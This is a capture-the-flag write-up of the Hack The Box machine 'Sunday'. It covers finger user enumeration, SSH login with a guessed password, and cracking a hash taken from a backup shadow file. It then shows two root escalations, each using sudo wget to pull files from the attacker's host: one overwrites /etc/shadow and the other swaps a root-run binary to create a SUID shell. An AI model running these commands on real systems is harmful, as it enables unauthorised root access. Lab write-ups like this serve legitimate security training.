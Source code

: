```yaml
---
"title": "Hack The Box - Sunday"
"date": 2020-07-24
"tags": ["linux", "medium", "finger", "wget", "sudo", "SUID"]
"keywords": ["linux", "medium", "finger", "wget", "sudo", "SUID"]
"categories": "HackTheBox OSCP-Like"
"author": "Ghostbyt3"
"description": "Getting Initial is by gathering usernames from Finger service and\
  \ gusesing the password gives use user shell and We need to find backup shadow file\
  \ to get user sammy's password and privilege escalation is by SUID."
"featured_image": "/img/htb-sunday/Untitled.png"
"layout": "single"
"showTableOfContents": true
"authorbox": true
"pager": true
"toc": true
"mathjax": true
"sidebar": "right"
"subtitle": "HackTheBox OSCP-Like - Writeup"
---
```



![Untitled](/img/htb-sunday/Untitled.png)

Getting Initial is by gathering usernames from Finger service and gusesing the password gives use user shell and We need to find backup shadow file to get user sammy's password and privilege escalation is by SUID.

Link: [https://www.hackthebox.eu/home/machines/profile/136](https://www.hackthebox.eu/home/machines/profile/136)

Let's Begin with our Initial Nmap Scan.

## Nmap Scan Results

```
PORT      STATE  SERVICE VERSION
79/tcp    open   finger
111/tcp   open   rpcbind 2-4 (RPC #100000)
22022/tcp open   ssh     SunSSH 1.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 d2:e5:cb:bd:33:c7:01:31:0b:3c:63:d9:82:d9:f1:4e (DSA)
|_  1024 e4:2c:80:62:cf:15:17:79:ff:72:9d:df:8b:a6:c9:ac (RSA)
```

## Finger Enumeration

### What is Finger?

**A finger service is running on this host. The finger protocol is used to find out information about users on a remote system. Finger servers can usually provide either a list of logged-in users or detailed information on a single user.**

I just downloaded finger-user-enum tool from [Github](https://github.com/pentestmonkey/finger-user-enum). 

![Untitled](/img/htb-sunday/Untitled%201.png)

Here we can see a lot of usernames and only a few have pts and others are TTY

PTS connections are SSH connections

TTY are direct connections to the computer like reverse shell something.

## Getting User Shell

If I tried to login normally, it throws me some error and after adding this argument it worked perfectly. So I tried some default creds and I used the box name as password and Im logged in. `sunny : sunday`

![Untitled](/img/htb-sunday/Untitled%202.png)

## Getting Sammy User Shell

The first thing I did is `sudo -l` and it shows me a binary located in root directory but I can't examine much of it.

```bash
sunny@sunday:~$ sudo -l
User sunny may run the following commands on this host:
    (root) NOPASSWD: /root/troll
sunny@sunday:~$ sudo /root/troll
testing
uid=0(root) gid=0(root)
```

While checking through all the folders there is `shadow.backup` file in `/backup` directory and I got sammy user hash.

```bash
sunny@sunday:/$ ls
backup  boot   dev      etc     home    lib         media  net  platform  root   sbin    tmp  var
bin     cdrom  devices  export  kernel  lost+found  mnt    opt  proc      rpool  system  usr
sunny@sunday:/$ cd backup/
sunny@sunday:/backup$ ls
agent22.backup  shadow.backup
sunny@sunday:/backup$ cat shadow.backup 
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```

Cracked that using john and the password is `cooldude!`

![Untitled](/img/htb-sunday/Untitled%203.png)

Tried to ssh with `sammy : cooldude!` and Im logged in.

```bash
root@kali:~/CTF/HTB/Boxes/Sunday# ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 sammy@10.10.10.76 -p 22022
Password: 
Last login: Tue Apr 24 12:57:03 2018 from 10.10.14.4
Sun Microsystems Inc.   SunOS 5.11      snv_111b        November 2008
sammy@sunday:~$ whoami
sammy
sammy@sunday:~$
```

## Privilege Escalation

Uploaded my enumeration script and it reveals me that `sudo -l` and it seems I can run `wget` as root without any password.

![Untitled](/img/htb-sunday/Untitled%204.png)

So I just created a hash using openssl 

```bash
root@kali:~/CTF/HTB/Boxes/Sunday# openssl passwd -1
Password: 
Verifying - Password: 
$1$9O207kaB$1arg8TyVn3Wuva8gQs.br1
```

And I copied my shadow file and changed the hash with the one I created.

![Untitled](/img/htb-sunday/Untitled%205.png)

Now I tried to overwrite the older one with mine and we need to mention `-O` in wget for the filename, otherwise it will be saved as `shadow1` since there is already a file that exists on that name.

```bash
sammy@sunday:/etc$ sudo /usr/bin/wget http://10.10.14.20:8000/shadow -O shadow
--14:33:07--  http://10.10.14.20:8000/shadow
           => `shadow'
Connecting to 10.10.14.20:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1,009 [application/octet-stream]

100%[=============================================================>] 1,009         --.--K/s             

14:33:08 (169.98 MB/s) - `shadow' saved [1009/1009]

sammy@sunday:/etc$ su root
Password: 
su: Password for user 'root' has expired
New Password: 
Re-enter new Password: 
su: password successfully changed for root
sammy@sunday:/etc# su root
sammy@sunday:/etc# whoami
root
```

Now I can do su to root with the new password. And here it says root password is expired and it asked for a new password so I just entered a new password and Im logged in.

### Another Method

We know there is a binary called `troll` which is located in `/root` directory and user sunny have permission to run that as root without any password, So I just made a small bash script that will copy the bash from `/usr/bash` and paste it in /tmp directory and make it SUID.

```bash
sammy@sunday:/root# sudo /usr/bin/wget http://10.10.14.20:8000/troll -O /root/troll 
--15:20:12--  http://10.10.14.20:8000/troll
           => `/root/troll'
Connecting to 10.10.14.20:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 61 [application/octet-stream]

100%[=======================================================================>] 61            --.--K/s             

15:20:13 (14.32 MB/s) - `/root/troll' saved [61/61]
```

Using wget I just replaced the older one, And we need to be quick here because there is some sort of cron running that replaces the file as fast as possible.

When I executed the binary it created the bash with SUID and I need to mention -p while running it because -p mentions run it as an effective user ID which is root.

```bash
sunny@sunday:/tmp$ sudo /root/troll
sunny@sunday:/tmp$ ls
bash  ogl_select254
sunny@sunday:/tmp$ ./bash -p
bash-3.2# whoami
root
bash-3.2#
```

We own the box